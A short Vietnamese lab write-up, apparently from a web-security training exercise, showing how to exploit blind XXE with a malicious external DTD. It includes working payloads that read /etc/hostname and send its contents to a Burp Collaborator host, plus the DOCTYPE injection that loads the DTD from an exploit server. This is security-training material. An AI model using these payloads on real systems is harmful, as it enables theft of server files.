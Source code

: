 ## Exploiting blind XXE to exfiltrate data using a malicious external DTD (REFER)

1. Theo như gợi ý, chúng ta sẽ store 1 file DTD trên server thông qua exploit server, trong đó nội dung cần trích xuất sẽ được gửi tới hệ thống mà ta có thể kiểm soát.

2. Nội dung file dtd:
- Khai báo parameter entity ``file`` chứa nội dung file cần trích xuất ```<!ENTITY % file SYSTEM "file:///etc/hostname">```
- Khai báo parameter entity ``eval`` chứa trong đó là dynamic parameter entity ``exfil``
- Sau đó gọi param ``eval`` để khai báo tham chiếu cho ``exfil`` entity với mục đích để cho nội dung của ``file`` được gán vào URL query string. ```<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://gbv4nrlc523pkwqp09hkm6awsnydm2.burpcollaborator.net/?x=%file;'>">```

![Img1](\asset/../img/store.png)

3. Sau đó trong request check stock tạo parameter entity tham chiếu đến file ``exploit.dtd`` trên server exploit
- Payload: ```<!DOCTYPE test [<!ENTITY % test-xxe SYSTEM "https://exploit-0afa000e03661144c001c12e011e0016.exploit-server.net/exploit.dtd"> %test-xxe;]>```

4. param entity ``test-xxe`` sẽ xử lý lần lượt trong chương trình external DTD. Nội dung file hostname được gán vào sau URL rồi gửi request sang Burp Collaborator.

![Img2](\asset/../img/done.png)